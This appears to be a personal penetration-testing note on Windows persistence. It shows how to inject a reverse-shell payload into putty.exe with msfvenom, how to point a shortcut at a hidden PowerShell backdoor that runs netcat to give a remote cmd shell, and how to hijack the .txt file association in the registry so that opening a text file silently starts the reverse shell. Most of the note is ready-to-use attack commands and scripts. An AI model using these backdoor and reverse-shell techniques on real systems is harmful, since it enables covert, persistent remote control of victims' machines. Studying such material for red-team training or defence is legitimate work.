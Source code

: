 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### Executable Files
- Legit binary can be replaced with reverse shell. [Msfvenom](Msfvenom.md) can inject payload into a legit binary.
```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/reverse_reverse_tcp LHOST=localhost LPORT=<port> -b "\x00" -f exe -o putty_x.exe
```
### Shortcuts
- Changing shortcut target to our reverse shell
- Point it to a script:
```powershell
# backdoor.ps1
Start-Process -NoNewWindows "c:\tools\nc64.exe" "-e cmd.exe <IP> <PORT>"
C:\Windows\System32\calc.exe
```
- Shortcut target:
```powershell
powershell.exe -WindowStyle Hidden C:\Windows\System32\backdoor.ps1
```
### File Associations
- Registry stores key for every single file type under `HKLM\Software\Classes` which contains the ProgID.
- `ProgID` is the identified for the program that opens that file.
- Example:
```powershell
HKLM\Software\Classes\.txt -> txtfile (ProgID)
```
- `HKLM\Software\Classes` also has entry for the `txtfile` ProgID.
- Default command to run for the files is stored under `HKLM\Software\Classess\<progID>\shell\open\command`
```powershell
HKLM\Software\Classes\txtfile\shell\open\command -> %SystemRoot%\system32\notepad.exe %1
# %1 is the filename
```
- We can change this key to 
```powershell
HKLM\Software\Classes\txtfile\shell\open\command -> powershell.exe -WindowStyle Hidden C:\Windows\System32\backdoor2.ps1
```
- backdoor2.ps1
```powershell
Start-Process -NoNewWindows "c:\tools\nc64.exe" "-e cmd.exe <IP> <PORT>"
C:\Windows\System32\Notepad.exe $args[0]
```
- Opening a txt file will now trigger the reverse shell


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
